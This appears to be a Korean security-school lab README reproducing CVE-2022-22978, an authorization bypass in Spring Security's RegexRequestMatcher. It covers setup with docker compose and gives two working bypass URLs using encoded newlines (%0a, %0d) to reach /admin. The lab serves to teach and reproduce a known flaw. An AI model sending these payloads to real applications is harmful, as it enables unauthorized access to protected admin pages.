 # CVE-2022-22978

화이트햇 스쿨 3기 김태우_2249

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.
Spring Security 5.5.6 및 5.6.3 버전과 이보다 오래된 지원되지 않는 버전들에서는,
정규 표현식에 .(마침표)가 포함된 **RegexRequestMatcher**를 사용하는 애플리케이션이 인가 우회(authorization bypass) 취약점에 노출될 가능성이 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## 환경 구성 및 실행

다음 명령어를 실행하여 Spring Security 5.6.3 기반의 웹 애플리케이션을 시작:

```
docker compose up -d
```
서버 시작 후, <http://your-ip:8080/admin> 를 접속하여 admin 페이지가 막힘을 확인

![](admin_Error.png)

## Vulnerability Reproduce

인증을 우회한 관리자 페이지에 접근하려면 다음 요청을 보냄

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](admin_Success.png)
